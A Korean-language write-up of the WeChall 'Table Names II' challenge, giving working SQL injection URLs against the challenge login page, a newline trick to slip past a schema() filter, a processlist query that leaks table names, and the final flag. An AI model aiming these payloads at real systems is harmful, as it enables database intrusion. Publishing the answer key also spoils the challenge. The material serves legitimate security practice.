 # [WeChall] Table Names II - Writeup

이번 문제도 이전 문제와 마찬가지로 로그인 페이지로부터 데이터베이스의 이름과 테이블 이름을 구해와야하는 SQL Injection 문제다.

다만 필터링이 생겼다.

___

## 1. Union Based SQL Injection
[http://www.wechall.net/challenge/nurfed/more_table_names/challenge.php?username=%27union+select+1,2,3%23&password=&login=login](http://www.wechall.net/challenge/nurfed/more_table_names/challenge.php?username=%27union+select+1,2,3%23&password=&login=login)

3개의 컬럼을 사용한다.

___

## 2. 데이터베이스 이름 추출

[http://www.wechall.net/challenge/nurfed/more_table_names/challenge.php?username=%27union+select+schema%28%0a%29,2,3%23&password=&login=login](http://www.wechall.net/challenge/nurfed/more_table_names/challenge.php?username=%27union+select+schema%28%0a%29,2,3%23&password=&login=login)
 
`schema()`라는 문자열을 필터링하지만, `schema(\n)`처럼 써줘서 우회할 수 있다.

데이터베이스의 이름은 `nurfedtables37`이다.

___

## 3. 실행 중인 쿼리 추출

데이터베이스의 이름은 얻었고, 이제 테이블의 이름을 알아내야 한다.

하지만 `information_schema`의 앵간한 테이블들은 필터링 때문에 접근할 수 없었다.

[http://www.wechall.net/challenge/nurfed/more_table_names/challenge.php?username=%27+union+select+info,2,3+from+information_schema.processlist%23&password=&login=login](http://www.wechall.net/challenge/nurfed/more_table_names/challenge.php?username=%27+union+select+info,2,3+from+information_schema.processlist%23&password=&login=login)

그래서 `processlist` 테이블을 통해 실행중인 쿼리를 추출했고, 덕분에 데이터베이스의 이름까지 한번에 알아왔다.

`schema()`는 뭐.. 우회 하나 마나였다..

테이블의 이름은 `userbobbytable7`이다.

___

## Answer

flag: `nurfedtables37_userbobbytable7`
